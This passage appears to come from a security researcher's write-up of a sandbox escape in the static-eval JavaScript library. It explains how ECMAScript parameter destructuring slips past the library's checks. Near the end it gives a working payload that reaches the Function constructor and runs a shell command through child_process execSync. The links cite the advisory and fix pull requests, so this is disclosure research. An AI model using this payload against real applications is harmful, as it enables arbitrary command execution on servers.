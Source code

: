 As I commented before, static-eval uses [the esprima library][esprima] to parse
the code we give to it. According to its documentation, esprima is a parser
that fully supports the [ECMAScript standard][ecma]. ECMAScript is something
like a dialect of JavaScript with more features, that makes its syntax more
comfortable to the user[^ecma-disclaimer].

[ecma]: https://www.ecma-international.org/ecma-262/7.0/
[^ecma-disclaimer]: It's worth noting that this is a pretty vague and incorrect
definition of what ECMAScript is. My indifference to the JavaScript ecosystem
makes me don't even bother in finding a more correct definition.

One feature that was added to ECMAScript is [function parameter
destructuring][destructuring].  With this feature, the following JS code is now
valid:

[destructuring]: https://simonsmith.io/destructuring-objects-as-function-parameters-in-es6/

```js
function fullName({firstName, lastName}){
    return firstName + " " + lastName;
}
console.log(fullName({firstName: "John", lastName: "McCarthy"}))
```

The curly braces inside the definition of the function arguments indicate that
the function doesn't take two arguments `firstName` and `lastName`. Instead, it
takes just one argument that is an object that must have the `firstName` and
`lastName` properties.  The previous code is equivalent to the following:

```js
function fullName(person){
    return person.firstName + " " + person.lastName;
}
console.log(fullName({firstName: "John", lastName: "McCarthy"}))
```

If we see the AST generated by esprima (I did it by using [this tool][esprima-online-parser]),
we will have a very satisfactory result:

![Result of parsing the function using parameter destructuring][object-pattern]

[object-pattern]: /images/static-eval/esprima-online-parser.png
[esprima-online-parser]: http://esprima.org/demo/parse.html

Indeed, this new syntax makes the function argument have a `key.type` different from
`Identifier`, so static-eval won't use it when it overrides the variables. This way,
when evaluating

```js
(function({book}){return book.constructor})({book:"".sub})
```

static-eval will use the initial value of `book`, that is an object. Then, it
allows the creation of the function. But when it is called, book will be a
function, so the function constructor is now returned. I found the bypass!

The previous expression returns the function constructor, so I only have
to call it to create a malicious function, and then call this created
function:

```js
(function({book}){return book.constructor})({book:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()
```


[static-eval]: https://github.com/substack/static-eval
[substack]: https://twitter.com/substack
[esprima]: https://github.com/jquery/esprima/
[ast]: https://en.wikipedia.org/wiki/Abstract_syntax_tree
[main-code]: https://github.com/substack/static-eval/blob/master/index.js
[pull-request]: https://github.com/substack/static-eval/pull/18
[maustin-blogpost]: https://maustin.net/articles/2017-10/static_eval
[template-injection]: https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs
[constructor]: https://developer.mozilla.org/es/docs/Web/JavaScript/Referencia/Objetos_globales/Function
[vm2-escape]: https://github.com/patriksimek/vm2/issues/32
[img-constructor]: /images/static-eval/constructor-bypass.png "Result of executing the previous payload"
[execSync]: /images/static-eval/constructor-execsync.png "Result of executing the payload that runs the `id` command in the system"
[img-pwned]: /images/static-eval/exploit-final.png
[forrest-gump-img]: /images/static-eval/npm-install.jpeg
[jsonpath-lib]: https://github.com/dchester/jsonpath
[jsonpath-blogpost]: https://goessner.net/articles/JsonPath/
[esprima-patch]: https://github.com/dchester/jsonpath/blob/87f97be392870c469308dd4dc90d2067863ea02a/lib/aesprim.js#L8
[original-link]: /posts/static-eval-sandbox-escape-original-writeup/
[advisory]: https://www.npmjs.com/advisories/758
[fix-pr]: https://github.com/browserify/static-eval/pull/21
[fix2]: https://github.com/browserify/static-eval/pull/23
[readme-pr]: https://github.com/browserify/static-eval/pull/22/files